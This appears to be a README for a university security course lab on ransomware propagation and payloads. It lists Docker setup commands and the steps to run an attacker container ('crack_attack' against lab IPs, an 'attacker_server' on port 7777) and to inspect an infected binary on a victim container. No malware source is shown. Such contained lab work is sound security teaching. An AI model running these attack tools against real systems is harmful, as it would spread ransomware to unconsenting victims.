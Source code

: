 # CSC Project3 - Ransomware Propagation and Payload

### ----- env setup -----
```bash
docker network prune
sudo docker build -t csc2024-project3 -f csc2024-project3.Dockerfile .
sudo docker compose -f csc2024-project3-docker-compose.yml up -d
```

### ----- reload yml -----
```bash
sudo docker compose -f csc2024-project3-docker-compose.yml down
```

### ----- run attacker -----
```bash
docker exec -it attacker bash
cd ../home/csc2024/id
./crack_attack  172.18.0.3 172.18.0.2 7777
./attacker_server 7777
```

> Note:  
> I added `volumes: - ./source:/home/csc2024/id` into the yml file, so that the folder `id` in the docker is shared with our environment.

### ----- run victim -----
```bash
docker exec -it victim bash
xxd ls | tail -n 1
```